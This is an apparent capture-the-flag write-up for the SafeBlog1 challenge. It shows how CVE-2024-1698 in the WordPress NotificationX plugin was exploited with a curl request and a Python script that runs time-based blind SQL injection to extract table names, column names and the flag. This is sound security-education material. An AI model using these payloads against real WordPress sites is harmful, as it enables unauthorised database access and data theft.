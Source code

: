 # SafeBlog1

Just finished setting up my blog. Oops there's a deadline tonight, moving on to my assignments now.

---

![](https://s2.loli.net/2024/04/24/8ghNa4563euPMKU.png)

Opening a website is the default theme and page after WordPress installation.

There is a notification reminder in the bottom left corner, indicating that the Notification X plugin has been used.

Search for relevant vulnerabilities, locate CVE-2024-1698, replicate the vulnerability and perform SQL blind injection.

```bash
curl "http://chall.geekctf.geekcon.top:40523/index.php?rest_route=%2Fnotificationx%2Fv1%2Fanalytics" 'nx_id=1337&type=clicks`=IF(SUBSTRING(version(),1,1)=5,SLEEP(10),null)-- -'
```

Please note that since URL rewriting is not enabled, it is necessary to search/capture the API path for confirmation, rather than directly using payload online.

The following are the POC scripts for reference. The three payloads are to obtain the list of table names for the current database (and locate the fl6g table), to obtain the list of column names for the fl6g table (with only one column of nam3), and to obtain the content of the nam3 column of the fl6g table.

```python
import requests
import string

delay = 5
url = "http://chall.geekctf.geekcon.top:40523/index.php?rest_route=%2Fnotificationx%2Fv1%2Fanalytics"

ans = ""
table_name = "" #fl6g
column_name = "" #nam3
session = requests.Session()

for idx in range(1,1000):
    low = 32
    high = 128
    mid = (low+high)//2
    while low < high:
        payload1 = f"clicks`=IF(ASCII(SUBSTRING((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),{idx},1))<{mid},SLEEP({delay}),null)-- -"
        payload2 = f"clicks`=IF(ASCII(SUBSTRING((select(group_concat(column_name))from(information_schema.columns)where(table_name=0x{bytes(table_name,'UTF-8').hex()})),{idx},1))<{mid},SLEEP({delay}),null)-- -"
        payload3 = f"clicks`=IF(ASCII(SUBSTRING((select(group_concat({column_name}))from({table_name})),{idx},1))<{mid},SLEEP({delay}),null)-- -"
        resp = session.post(url=url, data = {
                "nx_id": 1337,
                "type": payload1 # switch payload
            })
        if resp.elapsed.total_seconds() > delay:
            high = mid
        else:
            low = mid+1
        mid=(low+high)//2
    if mid <= 32 or mid >= 127:
        break
    ans += chr(mid-1)
    print(ans)
```

This question is positioned as a simple level question, therefore an entry-level blind annotation path was used to obtain table names, column names, and fields. Some contestants attempted to bruteforce the password hash of administrator users, but since this question is not a dynamic container question, in order to prevent contestants from modifying the database, except for the wpndx_stats where the vulnerability is located (which uses the Insert and UPDATE statements), other data tables only retain SELECT permission. In this case, even if the administrator password is obtained, they cannot log in to the WordPress backend.


In addition, due to the magic mechanism of the Wordpress, if there are multiple threads at the same time to this vulnerability point time blind, will lead to sleep delay overlay, resulting in inaccurate results. I'm sorry I didn't find this problem when I checked the problem.